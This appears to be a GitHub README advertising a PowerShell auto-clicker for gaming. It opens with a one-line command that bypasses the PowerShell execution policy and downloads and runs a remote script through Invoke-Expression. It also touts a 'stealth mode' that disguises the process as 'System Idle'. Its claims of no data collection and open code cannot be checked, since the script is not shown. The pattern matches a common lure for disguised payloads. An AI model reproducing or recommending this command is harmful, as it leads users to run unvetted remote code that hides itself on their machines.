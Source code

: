 **`powershell Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass && powershell Invoke-Expression (Invoke-RestMethod https://raw.githubusercontent.com/usnjournal/clicker/refs/heads/main/clicker.ps1)`**

**A PowerShell-based mouse automation tool with ultra-precise timing — perfect for gaming, repetitive tasks, or testing.**

⚡ **Features**
🎯 **Click Control**
 - Adjustable CPS (1–1000) with microsecond precision
 - Supports left/right mouse buttons
 - Toggle key (customizable hotkey) for instant activation
⏱️ **High-Performance Engine**
 - Uses high-resolution timers for consistent click intervals
 - Compensates for lag/delays to maintain target CPS
 - Lightweight, no external dependencies

🎮 **Gaming Optimized**
 - Stealth mode: Masks process as "System Idle"
 - Minimal CPU usage for background operation
 - No installation required

🛠️ **Technical Details**
 - PowerShell 5.1+ compatible
 - Works on Windows 10/11 & Server
 - Admin rights not required

⚠️ **Disclaimer**
**For personal/educational use only.**
**Not responsible for bans or misuse in games/software.**
**Use at your own risk.**

🔒 **Security**
 - No data collection — runs entirely locally.
 - Open-source code for transparency.

👥 **Credits**
 - Developed by onlynelchilling & usnjournal.

**Not affiliated with any game studios.**
